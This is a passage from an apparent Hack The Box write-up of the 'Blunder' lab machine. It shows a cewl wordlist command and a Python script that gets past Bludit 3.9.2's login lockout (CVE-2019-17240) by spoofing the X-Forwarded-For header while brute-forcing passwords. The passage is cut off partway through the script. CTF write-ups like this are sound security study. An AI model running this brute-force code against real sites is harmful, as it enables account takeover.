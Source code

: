 ```text
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```
# Bludit CMS Brute Force
With a valid username identified, brute-forcing the login seemed like a sound option. However, while googling it had been 
found that versions, including and prior to 3.9.2 employ an *anti- brute force mechanism* that blocks users after 10 or 
more incorrect login attempts. A bypass method to this anti-brute force mechanism, along with a *POC*[^f3] had been found
on Google. For a wordlist to go with the brute force, one was generated using *cewl* on the blog as 
```cewl -d 5 http://10.10.10.191 -w /home/_4m0r/HTB/Machines/Blunder/wordlist.txt ```. Using the aforementioned POC, a
python script[^f4] to brute force credentials was written and the same is given below.
```python
#!/usr/bin/env python3

'''
Title: Bludit3.9.2PassBruteForce.py
Description: Bypasses anti-brute forcing mechanism of Bludit CMS v 3.9.2 and brute forces a working password
Application: Bludit 3.9.2
Reference: CVE-2019-17240, https://rastating.github.io/bludit-brute-force-mitigation-bypass/
Author: 4m0r
'''

import re
import requests

host = "http://10.10.10.191" # Change to target URL

login_url = host + '/admin/'
username = 'fergus' # Change to a known username
fname = "/home/_4m0r/HTB/Machines/Blunder/wordlist.txt" # Change to a wordlist of your choice

with open(fname) as f:
    content = f.readlines()
    word1 = [x.strip() for x in content] 

wordlist = word1

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }
```